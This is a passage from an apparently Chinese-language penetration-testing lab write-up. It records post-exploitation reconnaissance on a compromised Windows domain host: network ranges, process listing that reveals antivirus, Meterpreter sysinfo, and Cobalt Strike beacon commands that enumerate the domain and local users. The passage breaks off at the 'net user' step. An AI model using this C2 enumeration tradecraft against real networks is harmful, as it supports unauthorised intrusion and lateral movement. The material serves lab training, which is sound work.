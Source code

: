     外网网段`192.168.111.0` ，内网网段`10.10.10.0`
    
2. 进程信息
    
    ```python
    # ps
    2740  2120  360Tray.exe                   x86   1        DE1AY\Administrator           C:\Program Files (x86)\360\360Safe\safemon\360Tray.exe
    ```
    
    发现安装了`360`
    
3. 主机信息
    
    ```python
    meterpreter > sysinfo
    Computer        : WEB
    OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : zh_CN
    Domain          : DE1AY
    Logged On Users : 8
    Meterpreter     : x86/windows
    ```
    
    发现存在域`DE1AY`
    
4. 查看域详细信息
    
    ```python
    beacon> shell net config workstation
    [*] Tasked beacon to run: net config workstation
    [+] host called home, sent: 53 bytes
    [+] received output:
    计算机名                     \\WEB
    计算机全名                   WEB.de1ay.com
    用户名                       Administrator
    
    工作站正运行于               
    	NetBT_Tcpip_{D7E14072-49B9-45D3-BA8C-7955E6146CC2} (000C29ACFAFB)
    	NetBT_Tcpip_{AD80CD23-D97F-4814-A715-9248D845EA0F} (000C29ACFA05)
    
    软件版本                     Windows Server 2008 R2 Standard
    
    工作站域                     DE1AY
    工作站域 DNS 名称            de1ay.com
    登录域                       DE1AY
    ```
    
    域为`de1ay.com` 
    
5. 查看本机用户（本机以及域用户）
    
    ```python
    C:\Oracle\Middleware\user_projects\domains\base_domain>net user    
    net user
    